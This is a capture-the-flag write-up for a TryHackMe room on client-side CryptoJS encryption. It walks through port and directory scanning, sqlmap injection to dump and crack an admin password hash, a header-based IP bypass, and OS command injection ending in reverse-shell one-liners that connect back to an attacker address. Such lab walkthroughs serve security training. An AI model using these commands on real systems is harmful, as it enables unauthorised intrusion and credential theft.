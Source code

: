 # Crylo

A writeup for the room [Crylo](https://tryhackme.com/room/crylo4a) on TryHackMe.

> Learn about the CryptoJS library and JavaScript-based client-side encryption and decryption.

<Image src="https://tryhackme-images.s3.amazonaws.com/room-icons/af0e7c2109847033d31d273498657526.png" width="128" />

## Task 1 - Enumeration

> How many ports are open?

Start the machine and scan the ports with nmap.

```bash
nmap -sS -p- -v [IP]
```

<Image src="/images/writeups/thm/2023/crylo/nmap.png" />

> What is the 403/forbidden web page?

Open the web page in the browser and check the source code.

Other pages return a 404 error.

<Image src="/images/writeups/thm/2023/crylo/homepage.png" />

Nothing seems to be interesting, so we can try to enumerate the website with gobuster.

It is important to set the `-s` flag to search for at least the 403 status code.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,css,js -q -s "200,403" -u [URL]
```

<Image src="/images/writeups/thm/2023/crylo/gobuster.png" />

## Task 2 - Injection

> What is the name of the first username?

It is a common name for the default user of a web application.

> What is the password for the above user?

We can try to login with common credentials, but nothing tried works.

<Image src="/images/writeups/thm/2023/crylo/login.png" />

Looking to the response we can see that the final text cannot be parsed directly.

However, the client understands it perfectly and shows the result.

It is possible to look to the code to find how it works.

<Image src="/images/writeups/thm/2023/crylo/code-login.png" />

The client decrypts the response using the CryptoJS library.

The response is encrypted using the AES algorithm with the CBC mode and a hardcode string as key and IV.

Using Cyberchef it is possible to convert the response and see its content.

<Image src="/images/writeups/thm/2023/crylo/decrypt-response.png" />

Now that the request is known, we can try sqlmap to see if it is vulnerable to SQL injection.

The easy way to manage the request is to save it in a file and use the `-r` flag.

Using the standard risk level is not enough, add `--risk=3 --level=3` to increase it and find a vulnerability.

```bash
# Enumerate databases
sqlmap -r request --risk=3 --level=3 --dbs

# Enumerate tables in food database
sqlmap -r request --risk=3 --level=3 --tables -D food

# Dump auth data to get the hash of the admin password
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food --data "username=admin" -C password
```

Follow the default answer for all questions except:

```
you provided a HTTP Cookie header value. The target URL provided its own cookies within the HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
```

We can obtain a hash of the admin password that be cracked with a tool like hashcat.

Analyzing the hash with hashid we can find the hash type is Django (PBKDF2-SHA256).

```bash
# Save hash in a file
echo "pbkdf2_sha256$260000$HxnWVrw647R53GeEUksjW5$SggM3ZAh86qRZtnn0VbWOSmHWhckfVvIsMG+jTZstpE=" > hash.txt

# Get hash type for hashcat
hashid -m hash.txt

# Crack the hash with mode 10000 (Django (PBKDF2-SHA256))
hashcat -m 10000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<Image src="/images/writeups/thm/2023/crylo/hashcat.png" />

## Task 3 - Encryption

> Which library is used for encryption and decryption?

Look in `/static/js/validation.js` to find the answer.

The library can be easily recognized by the capitalized name of the variable.

<Image src="/images/writeups/thm/2023/crylo/encryption.png" />

> Which JSON parameter was used to validate the pin?

Look in `/static/js/validation.js` to find the answer.

There is a specific if statement for the pin parameter.

<Image src="/images/writeups/thm/2023/crylo/pin-set.png" />

> Which encryption method is used?

Look in `/static/js/validation.js` to find the answer.

At the beginning of the file there is a comment that says that the encryption method is AES.

## Task 4 - Forbidden Bypass

> What extra header can be used to bypass the page?

Firstly, bypass the login changing the value of `pin_set` to `false`.

```
{"pin_set": "true", "email": "admin@admin.com", "success": "true"}
iL6SVLGiiyY47lh6kX353MqD9I+mcSncHWhuJl6Dg7umFTYotHmMKiPaluJ8J35LebkAv3FSyusGIO8rxwJztzwHX9Ot64ltTlbzi/spfQ4=

{"pin_set": "false", "email": "admin@admin.com", "success": "true"}
HS0kn8CQhTz7NwgLMw9tP1mWXHssgMd2MRJ9EeChrTiPlSg9HGgxyshgHbMYjhFnVbpEi5lm1bRMbgbdebHsfVsN+90GzIuDMX+SBBI9wdY=
```

> What extra header can be used to bypass the page?

Use the `X-Forwarded-For` header to bypass the IP check.

It can be easily added using Burp Suite.

Be careful to always add the header before sending any request.

```
X-Forwarded-For: 127.0.0.1
```

Once the header is added, you will see a simple input text and a submit button.

Send a request and move it to the repeater to simplify the work.

We can check for remote code execution using the following payload.

```bash
22 && sleep 10
```

We can see that the command is executed, so we can try to get a reverse shell.

```bash
ifconfig
nc -nlvp 1337
22 && bash -i >& /dev/tcp/[IP]/1337 0>&1
22 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.114 1337 >/tmp/f
```

## Task 5 - Exploitation

> What is the name of the vulnerability used to gain system access?

The vulnerability that we exploited is based on the debug form.

We can send OS commands to be executed on the target server.

[https://portswigger.net/kb/issues/00100100_os-command-injection](https://portswigger.net/kb/issues/00100100_os-command-injection)

> What is the current system’s username?

Once you obtain a reverse shell is enough to run `whoami` to get the answer.

```bash
whoami
```

> What is the user flag?

Go to the home directory of the user to find the flag.

```bash
cd
cat user.txt
```

> Which user is part of the sudo group?

It is enough to check the sudo group to find the answer.

```bash
getent group sudo
```

> What is the password for the above user?

> What is the root flag?
